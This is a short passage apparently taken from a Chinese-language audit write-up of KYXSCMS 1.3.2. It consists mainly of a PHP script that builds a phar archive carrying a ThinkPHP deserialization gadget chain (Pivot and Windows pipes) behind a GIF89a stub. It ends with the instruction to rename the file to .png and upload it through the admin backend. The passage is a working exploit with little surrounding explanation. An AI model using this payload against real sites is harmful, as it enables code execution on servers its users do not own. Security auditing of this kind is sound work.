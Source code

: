 ```php
namespace think\model{
    use think\Model;
    class Pivot extends Model
    {
        public function __construct()
        {
            $this->get();
        }
    }
}

namespace {

    $conver = new think\model\Pivot();
    $a = new think\process\pipes\Windows($conver);


    @unlink("phar.phar");
    $phar = new Phar("phar.phar"); //后缀名必须为phar
    $phar->startBuffering();
    $phar->setStub("GIF89a<?php __HALT_COMPILER(); ?>"); //设置stub
    $phar->setMetadata($a); //将自定义的meta-data存入manifest
    $phar->addFromString("test.txt", "test"); //添加要压缩的文件
//签名自动计算
    $phar->stopBuffering();
}
?>
```

然后改后缀为png，然后在后台上传：

![pic11](KYXSCMS1.3.2审计与测试.assets/pic11.png)

